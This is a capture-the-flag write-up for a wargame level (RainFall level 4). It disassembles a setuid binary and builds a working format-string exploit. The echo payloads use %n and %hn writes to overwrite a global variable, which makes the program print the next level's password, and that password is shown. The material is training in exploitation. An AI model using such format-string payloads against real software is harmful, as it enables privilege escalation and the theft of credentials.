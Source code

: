 # Level 4

- We login as user level4:
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level4/level4
```

```
level4@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level5 users 5252 Mar  6  2016 level4
level4@RainFall:~$ gdb level4
```

```
(gdb) disas main
Dump of assembler code for function main:
   0x080484a7 <+0>:     push   %ebp
   0x080484a8 <+1>:     mov    %esp,%ebp
   0x080484aa <+3>:     and    $0xfffffff0,%esp
   0x080484ad <+6>:     call   0x8048457 <n>
   0x080484b2 <+11>:    leave
   0x080484b3 <+12>:    ret
End of assembler dump.
```

```
(gdb) disas n
Dump of assembler code for function n:
   0x08048457 <+0>:     push   %ebp
   0x08048458 <+1>:     mov    %esp,%ebp
   0x0804845a <+3>:     sub    $0x218,%esp
   0x08048460 <+9>:     mov    0x8049804,%eax
   0x08048465 <+14>:    mov    %eax,0x8(%esp)
   0x08048469 <+18>:    movl   $0x200,0x4(%esp)
   0x08048471 <+26>:    lea    -0x208(%ebp),%eax
   0x08048477 <+32>:    mov    %eax,(%esp)
   0x0804847a <+35>:    call   0x8048350 <fgets@plt>
   0x0804847f <+40>:    lea    -0x208(%ebp),%eax
   0x08048485 <+46>:    mov    %eax,(%esp)
   0x08048488 <+49>:    call   0x8048444 <p>
   0x0804848d <+54>:    mov    0x8049810,%eax
   0x08048492 <+59>:    cmp    $0x1025544,%eax
   0x08048497 <+64>:    jne    0x80484a5 <n+78>
   0x08048499 <+66>:    movl   $0x8048590,(%esp)
   0x080484a0 <+73>:    call   0x8048360 <system@plt>
   0x080484a5 <+78>:    leave
   0x080484a6 <+79>:    ret
End of assembler dump.
```

```
(gdb) disas p
Dump of assembler code for function p:
   0x08048444 <+0>:     push   %ebp
   0x08048445 <+1>:     mov    %esp,%ebp
   0x08048447 <+3>:     sub    $0x18,%esp
   0x0804844a <+6>:     mov    0x8(%ebp),%eax
   0x0804844d <+9>:     mov    %eax,(%esp)
   0x08048450 <+12>:    call   0x8048340 <printf@plt>
   0x08048455 <+17>:    leave
   0x08048456 <+18>:    ret
End of assembler dump.
```

- Let's identify the calls and jump by execution order:
```
   0x08048460 <+9>:     mov    0x8049804,%eax
   0x08048465 <+14>:    mov    %eax,0x8(%esp)
   0x08048469 <+18>:    movl   $0x200,0x4(%esp)
   0x08048471 <+26>:    lea    -0x208(%ebp),%eax
   0x08048477 <+32>:    mov    %eax,(%esp)
   0x0804847a <+35>:    call   0x8048350 <fgets@plt>
```
>`0x8049804 <stdin@@GLIBC_2.0>: 0xb7fd1ac0`

>buffer size is 0x200 bytes

>buffer starts at `-0x208(%ebp)`

>>Prompt the user for up to 512 bytes.

```
   0x0804847f <+40>:    lea    -0x208(%ebp),%eax
   0x08048485 <+46>:    mov    %eax,(%esp)
   0x08048488 <+49>:    call   0x8048444 <p>
```
>>Call the `<p>` function with our buffer as parameter.

```
   0x0804844a <+6>:     mov    0x8(%ebp),%eax
   0x0804844d <+9>:     mov    %eax,(%esp)
   0x08048450 <+12>:    call   0x8048340 <printf@plt>
```
>>The `<p>` function calls `<printf@plt>` with our buffer.

```
   0x0804848d <+54>:    mov    0x8049810,%eax
   0x08048492 <+59>:    cmp    $0x1025544,%eax
   0x08048497 <+64>:    jne    0x80484a5 <n+78>
```
>`0x8049810 <m>:  0x00000000`

>>After the call to `<p>`, compare the value located at `0x8049810` avec with the hexadecimal constant 102 5544 (16 930 116 in decimal). If the two values differ, we `leave` and then `ret`, otherwise we call `<system@plt>`.

```
   0x08048499 <+66>:    movl   $0x8048590,(%esp)
   0x080484a0 <+73>:    call   0x8048360 <system@plt>
```
>`0x8048590: "/bin/cat /home/user/level5/.pass"`

>>Display our flag.


- So, we need to use `<printf@plt>` to assign the value 16930116 to `0x8049810`, we could do it like this
>>`echo -ne '\x10\x98\x04\x08 %16930110x %12$n \n' | ./level4`


- It would work, but this time, let's break down this assignment of 4 bytes (`%n`) into two assignments of 2 bytes each (`%hn`). We need to write 16 930 116, which is 102 5544 in hexadecimal:
>Low order bytes = 5544 (21 828 in decimal)

>High order bytes = 0102 (258 in decimal)


- Instead of making an assignment at `0x8049810`, we will make one at `0x8049810` and another one at `0x8049812`. `0x8049810` will contain the bytes representing the most significant value (here, the low-order bytes), and `0x8049812` will contain the bytes representing the least significant value (here, the high-order bytes).
>`\x12\x98\x04\x08\x10\x98\x04\x08 %VALUE1x %12$hn %VALUE2x %13$hn`

>`VALUE1 (0x8049812)` ==> 258 - 8 bytes for the addresses - 2 bytes for the spaces = 248

>`VALUE2 (0x8049810)` ==> 21 828 - 258 - 2 bytes for the spaces = 21 568


- So:
```
echo -ne '\x12\x98\x04\x08\x10\x98\x04\x08 %248x %12$hn %21568x %13$hn' | ./level4
...
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```